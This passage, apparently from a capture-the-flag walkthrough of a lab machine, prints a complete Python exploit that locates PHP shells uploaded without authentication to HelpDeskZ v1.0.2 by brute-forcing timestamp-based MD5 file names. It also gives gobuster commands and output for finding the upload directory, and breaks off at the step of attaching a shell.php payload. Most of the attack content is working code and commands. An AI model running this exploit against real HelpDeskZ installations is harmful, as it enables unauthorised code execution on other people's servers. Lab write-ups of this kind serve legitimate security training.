         import hashlib
        import time
        import sys
        import requests

        print 'Helpdeskz v1.0.2 - Unauthenticated shell upload exploit'

        if len(sys.argv) < 3:
            print "Usage: {} [baseUrl] [nameOfUploadedFile]".format(sys.argv[0])
            sys.exit(1)

        helpdeskzBaseUrl = sys.argv[1]
        fileName = sys.argv[2]

        currentTime = int(time.time())

        for x in range(0, 300):
            plaintext = fileName + str(currentTime - x)
            md5hash = hashlib.md5(plaintext).hexdigest()

            url = helpdeskzBaseUrl+md5hash+'.php'
            response = requests.head(url)
            if response.status_code == 200:
                print "found!"
                print url
                sys.exit(0)

        print "Sorry, I did not find anything"
        ```
      __NOTE(S)__:
      - It searches for your uploaded file.
      - A UNIX timestamp up to five minutes ago is checked.

   2. Find the ticketing service's upload directory:
      ```console
      gobuster -u http://10.10.10.121/support -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt
      # /images (Status: 301)
      # /index.php (Status: 200)
      # /uploads (Status: 301)
      # /css (Status: 301)
      # /includes (Status: 301)
      # /js (Status: 301)

      gobuster -u http://10.10.10.121/support/uploads -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt
      # /index.php (Status: 302)
      # /articles (Status: 301)
      # /tickets (Status: 301)
      ```
   3. Exploit HelpDeskZ's ticketing service:
      1. Fill-up all the required fields
      2. Attach payload (__*shell.php*__):
